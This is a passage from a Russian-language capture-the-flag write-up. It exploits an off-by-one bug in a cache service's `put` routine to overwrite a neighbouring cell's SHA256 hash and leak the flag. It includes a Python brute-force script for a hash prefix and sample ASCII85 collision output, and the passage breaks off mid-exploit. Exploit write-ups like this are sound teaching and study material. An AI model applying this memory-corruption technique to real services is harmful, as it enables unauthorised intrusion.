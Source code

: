 Каждая добавляемая в кеш запись получается путем конкатенации короткого названия кодировки (plain/a85/hex)
и результата декодера/энкодера. Если такая запись уже есть, то ничего не происходит

Не трудно заметить, что в `put` присутствует ошибка Off-by-one, которая позволяет нам переехать
первый QWORD следующей ячекйки кеша (по совместительству являющимся указателем на хеш sha256)

## Эксплуатация

Давайте заполним весь кеш, чтобы счетчик обнулился и выдал ячейку в начале кеша. Заполнив ячейку
полностью, с помощью бага Off-by-one мы сможем переписать значение хеша следующей ячейки
(содержащей флаг) хешем специальной строки. Теперь остается закодировать данную строку в plain,
чтобы получить флаг из кеша.

### Выбор хеша SHA256

Так как хеш переписывается строкой формата `название энкодера + результат кодирования`, то каждый
символ названия и результата должен быть в HEX алфавите. Нам подходит только энкодер ASCII85
(сокр. `a85`). Стоит отметить, что длина декодируемой строки должна быть кратна 5 (размеру группы)

```python {linenos=1}
from pwn import *

from hashlib import sha256
from itertools import product
from string import ascii_letters


for s in product(ascii_letters, repeat=5):
    SOURCE_STRING = ''.join(s).encode()
    h = sha256(SOURCE_STRING).hexdigest()

    if h[:3] == 'a85':
        log.info(f'String: {SOURCE_STRING}')
        log.info(f'Hash: {h}')

        HASH_PART = h[3:]
        HASH_PART += 'a' * (-len(HASH_PART) % 5)
        break
```

```plain
[*] String: b'aabss'
[*] Hash: a85b891727674ac83fa143bf4849b9a8e52550eafef891b3c7b01fd9d22ad5ef
```

### Коллизия ASCII85

Так как нам доступно всего 2 декодера, а заполнить ячейку нужно 6-ю уникальными записями,
необходимо придумать коллизию. ASCII85 позволяет кодировать одной группой переменное количество
байт (от 1 до 4). Таким образом, разбив одну строку разными способами, мы получим разные строки в
ASCII85

```sh
Awaiting command...
plain a85 A
Success. Result: )R5p|
Awaiting command...
plain a85 AA
Success. Result: ll}o|
Awaiting command...
plain a85 AAA
Success. Result: Q4pU|
Awaiting command...
plain a85 AAAA
Success. Result: 5)w|K
```